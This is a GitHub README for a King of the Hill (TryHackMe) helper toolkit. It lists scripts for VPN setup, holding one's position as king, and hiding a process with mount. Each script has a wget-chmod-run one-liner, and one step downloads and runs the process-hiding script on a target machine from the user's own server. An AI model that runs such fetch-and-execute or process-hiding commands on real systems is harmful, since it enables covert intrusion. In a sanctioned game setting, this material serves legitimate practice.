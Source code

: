 >בס״ד
<div align="center">

![image](https://user-images.githubusercontent.com/51442719/172729066-1293d382-4a31-4f03-8c23-ab0ea5f611a0.png)

# [`Anlominus`](https://github.com/Anlominus) 🤴 [King of the Hill](https://tryhackme.com/games/koth) `BETA`

---


</div>

---

# 📜 KoTH Menu ~ To Do
- 📜 Menu
### 1️⃣ ~ [`KoTH`](./KoTH) ~> TryHackMe VPN
> Simple helper script for VPN, VM's, etc
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH; chmod +x KoTH; ./KoTH
```

---

### 2️⃣ ~ [`KoTH-Protection`](./KoTH-Protection) ~> Protecting Rank in King of The Hill
> A script to protect your king
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH-Protection ; chmod +x KoTH-Protection; ./KoTH-Protection
```

---

### 3️⃣ ~ [`KoTh-Hidding`](./KoTh-Hidding) ~> A simple script to hide a process with mount
```shell
wget https://raw.githubusercontent.com/Anlominus/KoTH/main/KoTH-Hidding; && chmod +x KoTh-Hidding; ./KoTh-Hidding
```
> - Start local server <br>
>   - `python3 -m http.server 80` <br>
> - in the Target Machine <br>
>   - `wget http://yourvpnip/KoTh-Hidding && chmod +x KoTh-Hidding && ./KoTh-Hidding`

---

# TryHackMe Menu ToDo

---

- [x] Scope
  - [x] 1️⃣ Asking For Your Username:
  - [x] 2️⃣ Asking For TryHackMe User Name:
  - [x] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 5️⃣ Asking For IP Target: >>>  ${`ip_Target`}
  - [ ] 6️⃣ Asking For Name Target: >>> ${`ip_Target_Name`}
  - [ ] 4️⃣ Asking Location For Reporting: ${`export_Log_To`}

---

  - [ ] 1️⃣ Adding ${box_ip} ${box_name} ~>> /etc/hosts
    - `sudo echo "${box_ip}   ${box_name}" >> /etc/hosts`  
  - [ ] 2️⃣ Asking For TryHackMe VPN File Location:
  - [ ] 3️⃣ Asking Location for Reporting:

---

- [x] Anonymity Surfing
    - [x] anonsurf status
    - [x] anonsurf start
    - [x] anonsurf stop

---
